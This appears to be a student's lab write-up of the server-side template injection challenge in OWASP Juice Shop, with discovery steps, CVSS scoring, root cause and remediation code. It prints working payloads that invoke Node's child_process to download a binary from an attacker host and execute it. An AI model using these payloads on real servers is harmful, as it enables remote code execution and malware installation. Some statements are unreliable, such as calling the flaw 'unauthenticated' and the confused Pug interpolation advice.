




# SSTI Write-up

| Challenge Name | SSTI: Infect the Server with Juicy Malware by Abusing Arbitrary Command Execution  |
| :---- | :---- |
| Category | Injection  |
| Difficulty | 6-Star |
| OWASP Top 10 | A03:2021 \- Injection  |
| Secondary OWASP | A05:2021 \- Security Misconfiguration  |
| CWE | CWE-94: Improper Control of Generation of Code (Code Injection)  |
| CVSS v3.1 Vector | AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H  |
| CVSS v3.1 Score | 9.9 (Critical)  |
| Environment | OWASP Juice Shop  |
| Date Completed | 2026-05-12 |
| Author | [Kean Louis R. Rosales](https://keanrosales.com/Rosales,%20Kean%20Louis.pdf) |

## 1\. Executive Summary

OWASP Juice Shop exposes its user profile username field to unauthenticated template expression evaluation on the server side. By submitting a crafted payload through the username input, an attacker who holds a valid user session is able to execute arbitrary operating system commands on the underlying server process. This allows the attacker to download, install, and execute a malicious binary on the host system without requiring administrative privileges or special tooling beyond a web browser. This finding is classified under A03:2021 Injection because the application fails to distinguish between data and executable template directives, processing user-supplied input directly within the server-side rendering engine. 

## 2\. Technical Background

### 2.1 Application Architecture

OWASP Juice Shop is a deliberately vulnerable web application built on Node.js with an Express framework backend. The frontend is rendered using the Pug (formerly Jade) templating engine, which evaluates expressions embedded in template syntax at runtime on the server. The user profile page exposes a username field that accepts freeform text input and reflects the stored value back into a rendered template upon page load. Under normal operation, this field is intended to store and display a plain alphanumeric display name. Because the application passes the stored username value directly into the Pug rendering pipeline without sanitization, any expression embedded in the field is evaluated as live template code rather than treated as inert string data. 

### 2.2 Vulnerability Class

CWE-94 (Improper Control of Generation of Code) applies when an application constructs executable code using externally influenced input without sufficiently validating or sanitizing that input. The expected secure behavior is for the application to treat user-supplied strings as data by escaping or neutralizing template-specific syntax before passing values to the rendering engine. The missing control in Juice Shop is server-side output encoding and input validation on the username field prior to template rendering. The absence of this control allows an attacker to inject Pug template expressions such as `#{...}`, which the engine evaluates with full access to the Node.js runtime, including the `child_process` module required to spawn operating system commands. 

## 3\. Reconnaissance and Discovery

### 3.1 Hypothesis

The investigation began with the general premise that any field which reflects user-supplied data back into a server-rendered page is a candidate for template injection. The profile page username field is particularly suspicious because it is stored server-side and later embedded into a rendered view, which matches the classic pattern for SSTI vulnerabilities. Since Juice Shop is built on Node.js and uses Pug as its templating engine, the hypothesis was that Pug interpolation syntax of the form `#{expression}` might be evaluated if submitted verbatim through the username input. 

### 3.2 Discovery Method

Tools used: Web browser (Firefox on Kali Linux), OWASP Juice Shop scoreboard

Target component: `/profile` endpoint, username input field

Steps performed:

1. Navigated to `http://localhost:3000/profile` while authenticated as a registered user.



**Image 1.1:** The User Profile page at `localhost:3000/profile` showing the username field containing the probe payload `#{7*7}` before submission

2. Located the username input field on the User Profile page.  
3. Submitted the arithmetic probe payload `#{7*7}` as the username value and clicked "Set Username."

  
**Image 1.2:** The User Profile page after submitting `#{7*7}`, displaying the evaluated result `49` in place of the username

4. Observed the rendered profile page to determine whether the input was reflected as a literal string or evaluated as a template expression.

Finding: The username field rendered the value `49` rather than the literal string `#{7*7}`, confirming that the Pug templating engine was evaluating the submitted expression server-side.

## 4\. Exploitation

### 4.1 Prerequisites

| Requirement | Detail |
| :---- | :---- |
| Authentication | Low |
| Special Tools | Python 3 |
| Network Access | Local |
| Permissions | None |

### 4.2 Attack Chain

1. Authenticate to Juice Shop as a regular user and navigate to the profile page at `localhost:3000/profile`.  
2. Confirm SSTI by submitting the probe payload `#{7*7}` and verifying the rendered output equals `49`.  
3. Download the malware binary on the attacker machine using `wget` with the GitHub URL wrapped in single quotes to prevent shell misinterpretation of special characters, saving the file to the local Downloads directory.  
4. Host the binary on the attacker machine by starting a Python HTTP server with `python -m http.server 8000` in the directory containing the downloaded malware file.  
5. Construct the final payload using the Node.js `child_process.execSync` method to download the binary from the attacker's IP to the `/tmp` directory on the server, apply executable permissions, and execute it.  
6. Submit the payload through the username field on the profile page.  
7. Verify execution by observing the Python server logs for a `200 OK` GET request confirming the server fetched the binary, and confirming the challenge is marked as solved on the Juice Shop scoreboard.

### 4.3 Evidence — Payload / Request

Initial arithmetic probe (used to confirm SSTI):

```shell
#{7*7}
```

First command injection attempt (asynchronous, did not satisfy challenge detection):

```shell
#{global.process.mainModule.require('child_process').exec('wget -O malware http://192.168.0.83:8000/juicy_malware_linux_amd_64.1 && chmod +x malware && ./malware')}
```

Second attempt using `/tmp` directory (asynchronous, still did not satisfy detection):

```shell
#{global.process.mainModule.require('child_process').exec('wget -O /tmp/malware http://192.168.0.83:8000/juicy_malware_linux_amd_64 && chmod +x /tmp/malware && /tmp/malware')}
```

Final working payload (synchronous execution, challenge solved):

```shell
#{global.process.mainModule.require('child_process').execSync('wget -O /tmp/malware http://192.168.0.83:8000/juicy_malware_linux_amd_64 && chmod +x /tmp/malware && /tmp/malware').toString()}
```

   
**Image 1.3:** The attacker's terminal showing the `wget` command used to download the juicy malware binary from GitHub



**Image 1.4:** The attacker's terminal showing the Python HTTP server

  
**Image 1.5:**  The User Profile page after submitting the first `exec()`\-based payload, displaying `[object Object]` as the username  

  
**Image 1.6:** The User Profile page after submitting the final `execSync().toString()` payload

### 

### 4.4 Proof of Exploitation

The Juice Shop scoreboard displayed the success banner "You successfully solved a challenge: SSTI (Infect the server with juicy malware by abusing arbitrary command execution.)" after the final `execSync`\-based payload was submitted, confirming that the malware was downloaded, made executable, and executed on the server. 

  
**Image 1.7:** The Juice Shop scoreboard at `localhost:3000/#/score-board` displaying the green success notification 

## 5\. Root Cause Analysis

The root cause is the absence of server-side input sanitization on the username field prior to its insertion into the Pug template rendering pipeline. This violates the Principle of Input Validation and the broader Secure by Default design principle.

Contributing factors:

1. The username value retrieved from the database is passed directly into a Pug template expression context without escaping Pug interpolation syntax characters (`#{`, `}`).  
2. The Node.js server process runs with sufficient operating system privileges to access the `child_process` module, download files from external hosts, apply file permissions, and execute arbitrary binaries.  
3. No Content Security Policy or server-side allowlist restricts what operations template expressions may invoke, leaving the full Node.js global object accessible to injected code.  
4. The application provides no rate limiting or anomaly detection on the profile update endpoint, allowing an attacker to iterate through multiple payload variants without triggering lockout or alerting.

## 6\. Impact Assessment

| Dimension | Rating | Justification |
| :---- | :---- | :---- |
| Confidentiality | High | An attacker with arbitrary command execution can read any file accessible to the server process, including environment variables, configuration files, and database credentials.  |
| Integrity | High | The attacker can write arbitrary files to the server filesystem, modify application code, and execute malicious binaries that alter system state.  |
| Availability | High | Execution of an attacker-controlled binary can terminate the server process, consume system resources, or install ransomware that renders the system unavailable.  |
| Privilege Required | Low | Only a standard authenticated user account is needed; no administrative role is required at any point in the attack chain.  |
| User Interaction | None | The attacker operates entirely independently and does not require any action from another user or administrator.  |
| Scope | Changed | The vulnerability grants the attacker influence over the underlying host operating system, which is outside the security boundary of the Juice Shop application itself.  |

### 6.1 Business Impact

An attacker who successfully exploits this vulnerability gains unrestricted command execution on the server hosting the application. In a production environment, this translates to complete compromise of the host system, including the ability to exfiltrate all stored customer data, install persistent backdoors, pivot to other systems on the internal network, and render the service unavailable through process termination or filesystem corruption. The business consequence extends beyond the application boundary to any network-adjacent system reachable from the compromised host, and any regulatory obligation (such as GDPR or PCI-DSS) governing the data stored on that host would trigger mandatory breach notification and potential financial penalties. 

## 7\. Remediation

### 7.1 Short-Term — Output Encoding (Immediate) 

The fastest risk reduction is to ensure that the username value is HTML-entity-encoded before insertion into any template context, and that Pug unescaped interpolation syntax (`#{...}`) is never used with user-controlled data. In Pug, replacing unescaped interpolation with escaped interpolation (`!{...}` replaced by `#{...}` where applicable, or using a plain text node) prevents expression evaluation.

```javascript
// INSECURE - passes raw user input into template expression context
// username is rendered with #{username} in the Pug template

// SECURE - sanitize and escape before rendering
const sanitizedUsername = escapeHtml(req.body.username);
// Then render with Pug's escaped interpolation or pass as plain text variable
```

### 7.2 Long-Term — Strict Input Validation and Template Sandboxing (Recommended) 

The architecturally correct fix is to enforce an allowlist-based input validation policy on the username field at the API layer before the value is persisted to the database, combined with a sandboxed template rendering environment that prohibits access to the Node.js global object. This approach is more robust than output encoding alone because it eliminates malicious data at ingress rather than attempting to neutralize it at the point of rendering.

```javascript
// Server-side input validation middleware
function validateUsername(req, res, next) {
  const { username } = req.body;
  // Allow only alphanumeric characters, hyphens, and underscores
  const usernamePattern = /^[a-zA-Z0-9_-]{1,50}$/;
  if (!usernamePattern.test(username)) {
    return res.status(400).json({ error: 'Invalid username format.' });
  }
  next();
}

// Apply to profile update route
app.post('/profile', validateUsername, profileController.update);
```

Additionally, the Juice Shop server process should be run under a restricted operating system user account with the minimum permissions required for normal operation, and outbound network access from the application process should be restricted by firewall policy to prevent the server from fetching attacker-hosted binaries.

### 7.3 Remediation Priority

| Action | Effort | Priority |
| :---- | :---- | :---- |
| Apply output encoding on username before template rendering  | Low | Critical |
| Implement allowlist-based input validation on the username field  | Low | Critical |
| Restrict the server process to a least-privilege OS user account  | Medium | High |
| Enforce outbound firewall rules to block unexpected external connections from the application process  | Medium | High |
| Replace unescaped template interpolation patterns throughout the codebase  | High | High |

## 8\. References

All the references must use IEEE format   
Sample:

\[1\] OWASP Foundation, "A03:2021 \- Injection," OWASP Top 10, 2021\. \[Online\]. Available: [https://owasp.org/Top10/A03\_2021-Injection/](https://owasp.org/Top10/A03_2021-Injection/). \[Accessed: May 12, 2026\].

\[2\] MITRE Corporation, "CWE-94: Improper Control of Generation of Code ('Code Injection')," Common Weakness Enumeration, 2023\. \[Online\]. Available: [https://cwe.mitre.org/data/definitions/94.html](https://cwe.mitre.org/data/definitions/94.html). \[Accessed: May 12, 2026\].

\[3\] PortSwigger, "Server-Side Template Injection," Web Security Academy. \[Online\]. Available: [https://portswigger.net/web-security/server-side-template-injection](https://portswigger.net/web-security/server-side-template-injection). \[Accessed: May 11, 2026\].

\[4\] OWASP Foundation, "OWASP Application Security Verification Standard 4.0 \- V5: Validation, Sanitization and Encoding Verification Requirements," OWASP ASVS, 2019\. \[Online\]. Available: [https://owasp.org/www-project-application-security-verification-standard/](https://owasp.org/www-project-application-security-verification-standard/). \[Accessed: May 12, 2026\].

\[5\] OWASP Foundation, "Testing for Server-Side Template Injection (OTG-INPVAL-018)," OWASP Testing Guide v4.2, 2020\. \[Online\]. Available: [https://owasp.org/www-project-web-security-testing-guide/v42/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/18-Testing\_for\_Server-Side\_Template\_Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-Side_Template_Injection). \[Accessed: May 12, 2026\].

\[6\] Node.js Foundation, "Child Process \- Node.js Documentation," Node.js v18.x, 2023\. \[Online\]. Available: [https://nodejs.org/api/child\_process.html](https://nodejs.org/api/child_process.html). \[Accessed: May 12, 2026\].

## Appendix 

1. CVSS v3.1 Score Calculation

The CVSS v3.1 vector for this finding is `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`, which produces a Base Score of 9.9 (Critical). Each metric is justified as follows.

Attack Vector (AV): Network \- The exploit is delivered entirely over HTTP through a standard web browser directed at the application's profile update endpoint. No physical access, adjacent network positioning, or local access to the host is required. Any network-reachable deployment of the application would be exploitable from a remote location, which satisfies the Network definition.

Attack Complexity (AC): Low \- No special preconditions, race conditions, or target-specific configurations need to be present for exploitation to succeed. The SSTI probe and the final payload are deterministic and reproducible on every attempt given a valid user session. No information about the internal system state is required beyond what is observable through normal application use.

Privileges Required (PR): Low \- The attacker must hold a valid authenticated user session to access the profile page and submit the username payload. No administrative role or elevated permission is needed at any point in the attack chain. Because authentication is required but only at the lowest privilege level, Low is the accurate rating rather than None.

User Interaction (UI): None \- The attacker operates entirely independently. No victim user or administrator is required to click a link, visit a page, or take any action for the exploitation to succeed.

Scope (S): Changed \- The vulnerability enables the attacker to affect resources beyond the security scope of the vulnerable component. By executing arbitrary commands on the host operating system through the Node.js `child_process` module, the attacker gains influence over the underlying server, which is a distinct security authority from the Juice Shop application itself. This satisfies the Changed scope definition.

Confidentiality Impact (C): High \- Arbitrary command execution grants the attacker unrestricted read access to all files, environment variables, and data accessible to the server process, including database credentials and application secrets. All information protected by the application is at risk of complete disclosure.

Integrity Impact (I): High \- The attacker can write, modify, or delete any file writable by the server process, install persistent malware, and alter application behavior arbitrarily. This constitutes a complete loss of integrity for all data and code under the server's control.

Availability Impact (A): High \- Execution of attacker-controlled code can terminate the server process, consume all available system resources, encrypt the filesystem, or otherwise render the application and host completely unavailable.

The numerical score is derived by applying the CVSS v3.1 Base Score formula to the selected metric values. The Exploitability sub-score is driven to its maximum by the Network attack vector, Low complexity, Low privilege requirement, and the absence of any required user interaction. The Impact sub-score is maximized by High ratings across all three impact dimensions (Confidentiality, Integrity, and Availability) and further amplified by the Changed scope, which extends the impact calculation beyond the vulnerable component. The resulting composite Base Score of 9.9 places this finding at the upper boundary of the Critical severity band under the CVSS v3.1 qualitative severity rating scale, which defines Critical as scores in the range 9.0 to 10.0.

2. Personal Experience and Reflection

The process of solving this challenge was considerably more instructive than the final payload might suggest. The path from identifying the vulnerability to achieving a confirmed solve involved several distinct failure modes, each of which exposed a gap in my understanding of how command execution, file handling, and asynchronous JavaScript interact in a real exploitation scenario.

The first obstacle arose before any payload was submitted to the application. When attempting to download the juicy malware binary from GitHub using `wget`, the `zsh` shell on the Kali machine interpreted the special characters in the GitHub URL as file attribute operators rather than as part of a URL string. This produced an "unknown file attribute" error and prevented the binary from being downloaded at all. The fix was straightforward once the cause was understood: wrapping the URL in single quotes instructed the shell to treat the entire string as a literal argument to `wget`. This was a reminder that even the attacker's own tooling environment can introduce unexpected behavior when URLs contain characters that carry special meaning to the shell.

The second and more frustrating class of failures involved the "blind" execution problem. Once a valid payload structure was established, the Juice Shop UI responded with `[object Object]` rather than any useful output. Because there was no visible error message or command output, it was initially unclear whether the command had executed successfully, failed silently, or been blocked entirely. The Python HTTP server logs proved to be the critical diagnostic tool here. By observing that the server made a `GET` request for the malware binary and received a `200 OK` response, it was possible to confirm that the download portion of the payload was executing correctly, even though the scoreboard was not updating. This distinction between "the command ran" and "the command completed in a way the application could observe" turned out to be the core of the problem.

The third and final failure was the most conceptually significant. The initial payloads used the asynchronous `child_process.exec()` function, which fires a command in the background and returns a process object immediately. From the application's perspective, the template expression resolved to `[object Object]` because `exec()` returns a ChildProcess object, not the command output, and the malware was still running (or had already exited) by the time the template was rendered. The challenge's detection logic requires the malware to complete execution in a manner the scoring system can observe synchronously. Switching to `execSync().toString()` resolved both problems simultaneously: it forced the server to block until the command completed, and it converted the output buffer to a readable string that was rendered in the username field, confirming that the entire chain had executed as intended.

The overall experience reinforced three principles that are easy to understand in the abstract but genuinely difficult to internalize without encountering them in practice: the importance of monitoring indirect feedback channels (server logs) when direct output is unavailable, the behavioral difference between asynchronous and synchronous execution in a Node.js context, and the necessity of testing each component of a multi-step payload chain independently before assuming the entire chain is working.

